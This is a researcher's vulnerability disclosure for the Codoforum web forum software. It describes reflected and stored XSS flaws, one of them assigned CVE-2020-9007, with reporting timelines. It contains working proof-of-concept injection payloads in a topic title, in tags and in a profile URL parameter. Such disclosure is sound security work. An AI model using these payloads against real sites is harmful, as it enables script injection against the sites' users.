 # This is what I achived when research on [Codoforum](http://codologic.com/)
## Reflected XSS
### Firstly, login into a user account, and create a new topic with title <svg/onload=alert(document.domain)>
![](https://github.com/matuhn/Research/raw/master/codoforum/1.png)
### Secondly, do nothing and refresh the page 
![](https://github.com/matuhn/Research/raw/master/codoforum/2.png)
### It causes by this block of code 
![](https://github.com/matuhn/Research/raw/master/codoforum/3.png)
### Vendor confirmed
![](https://github.com/matuhn/Research/raw/master/codoforum/image.png)
![](https://github.com/matuhn/Research/raw/master/codoforum/20200214_072124.jpg)
# REPORT TIMELINE
# 02/13/2020: Discovered the vulnerability
# 02/13/2020: Vendor confirmed
# 02/17/2020: CVE-2020-9007

## Stored XSS
### Create a post with Tags : 1" onmouseover="alert(1)
### XSS will be fired if you put your mouse on tags

# REPORT TIMELINE
# 02/24/2020: Discovered the vulnerability

## Reflected XSS
### Go to : http://URL/codo/index.php?u=user/profile/11110%22%20accesskey=%22X%22%20onclick=%22alert(1)
### Use Alt+Shift+X , XSS will be fired

# REPORT TIMELINE
# 02/24/2020: Discovered the vulnerability
